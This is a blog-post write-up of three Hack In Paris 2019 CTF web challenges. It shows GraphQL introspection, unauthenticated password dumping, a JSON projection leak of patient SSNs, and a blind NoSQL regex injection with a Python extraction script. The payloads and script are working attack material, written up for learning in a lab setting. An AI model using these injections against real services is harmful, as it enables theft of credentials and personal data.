 ```yaml
---
layout: post
title: HIP19 Writeup - Meet Your Doctor 1,2,3
---
```


Last wednesday I was in the Hack In Paris event for the 3rd time. As always there were some great conferences and challenges, and a new competition called "Hacker Jeopardy" which was very fun! During the Wargame I focused my time on Web challenges based on the `graphql` technology which was new to me, you will find below my writeups for the `Meet Your Doctor` challenges. 

![HIP Wargame 2019]({{ site.baseurl }}/images/hip19_wargame.png "HIP Wargame 2019")


## Meet your doctor 1 - 100 pts

URL: `http://meetyourdoctor1.challs.malice.fr`   
Goal : `Please help me find the Meet your doctor Admin password`   

Gobuster revealed a `/graphql` endpoint at the root of the website, browsing [http://meetyourdoctor1.challs.malice.fr/graphql](http://meetyourdoctor1.challs.malice.fr/graphql) gave us an access to an interactive GraphQL interpreter. On this page we can browse the documentation and `schema`. 

There, we can get the structure of the `Doctor` type.

{% highlight sql %}
type Doctor {
  id: ID!
  firstName: String!
  lastName: String!
  specialty: String!
  patients: [Patient!]
  rendezvous: [Rendezvous!]
  email: String!
  password: String!
}
{% endhighlight %}

It seems we don't need to authenticate with the mutation `signIn` to query `Doctor` data.

{% highlight sql %}
type Mutation {
  signIn(login: String!, password: String!): Token!
}
{% endhighlight %}

A simple query `{Doctors{id email password}}` was enough to extract all doctors' email and password. The flag was the password of the Admin doctor : `Now-_Let$|GetSeri0us`

![GraphQL UI]({{ site.baseurl }}/images/doctors1graphql.png "GraphQL UI")


## Meet your doctor 2 - 200 pts

URL: `http://meetyourdoctor2.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

In this challenge we didn't have access to an online "lab" to test and query the GraphQL. I made a tool to interact with the `/graphql` endpoint, it is open-source and available for free on [Github: https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

Using `Introspection` we can still get the GraphQL schema, here is the URL-encoded version (Full version available at "[GraphQL Injection: enumerate-database-schema-via-introspection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)").

{% highlight sql %}
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
{% endhighlight %}

It is strongly recommended to use `Firefox` to view the server response as it parses JSON an displays it nicely.

![Doctors schema]({{ site.baseurl }}/images/doctors2_schema.png "Doctors schema")

Using GraphQLmap, we got the following structure.

{% highlight sql %}
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

Query
        doctor[]: email (String!), 
        doctors[Doctor]: options (JSON!), 
        patients[Patient]: 
        patient[]: id (ID!), 
        allrendezvous[Rendezvous]: 
        rendezvous[]: id (ID!), 
Doctor
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        specialty[String]: 
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
Patient
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        doctor[Doctor]: 
        ssn[String]: 
Rendezvous
        id[ID]: 
        date[String]: 
        confirmed[Boolean]: 
Mutation
        signIn[Token]: login (String!), password (String!), 
Token
        token[String]: 
{% endhighlight %}

In this case `Doctors` have an `options` parameter which accepts JSON. It allows us to specify items linked to the doctors' structure and project their data into the GraphQL response. I saw the following picture in a blog post, it helped me a lot to understand the structure of the query.

![GraphMap]({{ site.baseurl }}/images/graphmap.png "GraphMap")

We can query `{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}`, don't forget to escape the `"` inside the `options`.

{% highlight json %}
GraphQLmap> {doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
{
    "firstName": "Admin",
    "id": "5d089b25f48c29003191e3b5",
    "lastName": "Admin",
    "patients": [
        {
            "ssn": "b16cff8b-4a5a-41c8-8545-d9880fd7aae5"
        }
    ]
} 
{% endhighlight %}

There we go, the second flag was `b16cff8b-4a5a-41c8-8545-d9880fd7aae5`.     
An asciinema version is available at [https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli](https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli)


## Meet your doctor 3 - 300 pts

URL: `http://meetyourdoctor3.challs.malice.fr`
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

Things are getting complicated, we can dump the schema as the `Introspection` is set to false. Based on the previous challenge we can guess the structure is the same. Unfortunately we can't reuse the same query to extract the `ssn`, we get the following error.

{% highlight bash %}
Field "doctors" argument "search" of type "JSON!" is required, but it was not provided.
{% endhighlight %}

This means there is a `search` argument in the doctor structure, something like `doctors[Doctor]: options (JSON!), search(JSON!)`. Pete Correy explains how to exploit the search argument in his blog post [GraphQL NoSQL Injection Through JSON Types](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/).

Let's try a simple NoSQL injection with fields we know such as `lastName`.

{% highlight json %}
OK: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi\"} }"){firstName lastName id}}
KO: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admia\"} }"){firstName lastName id}}
{% endhighlight %}

Since the challenge I added a way to test the regex quickly in GraphQLmap using the `GRAPHQL_CHARSET` keyword inside a GraphQL query:

{% highlight json %}
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}     
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}    
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}    
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{% endhighlight %}

The injection worked, now we can re-use the payload from the challenge #2 and extract the `social security number` of the patient 0, which is the patient of the `Admin` doctor. The query was as follows, where we had to replace `CHARACTER_FROM_THE_FLAG` to test characters from the flag.

{% highlight json %}
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \"^CHARACTER_FROM_THE_FLAG\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
{% endhighlight %}

Obviously we scripted the data extraction in Python, the script below will get the last flag : `4f537c0a-7da6-4acc-81e1-8c33c02ef3b`.

```python
def blind_nosql(URL):
    data = ""
    data_size = 35
    charset = "0123456789abcdef-"
    while len(data) != data_size:
        for c in charset:
            query ="{doctors(options:%20%22{\%22\%22patients.ssn\%22:1}%22,%20search:%20%22{%20\%22patients.ssn\%22:%20{%20\%22$regex\%22:%20\%22^PLACEHOLDER\%22},%20\%22lastName\%22:\%22Admin\%22%20,%20\%22firstName\%22:\%22Admin\%22%20}%22){id, firstName}}"
            injected = (URL.format(query)).replace("PLACEHOLDER", data + c)
            r = requests.get(injected)
            if r.json()['data']['doctors'] != []:
                data += c
                print("\033[92m[+] Data found:\033[0m {}".format(data))
```

At that time we were checking if the content of `r.json()['data']['doctors']` was not empty, in order to abstract the data extraction we now take a check input from the user in order to compare the output.


{% highlight json %}
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
{% endhighlight %}

I hope you enjoyed the challenges as I did !     
Feel free to share the blog post ! :)
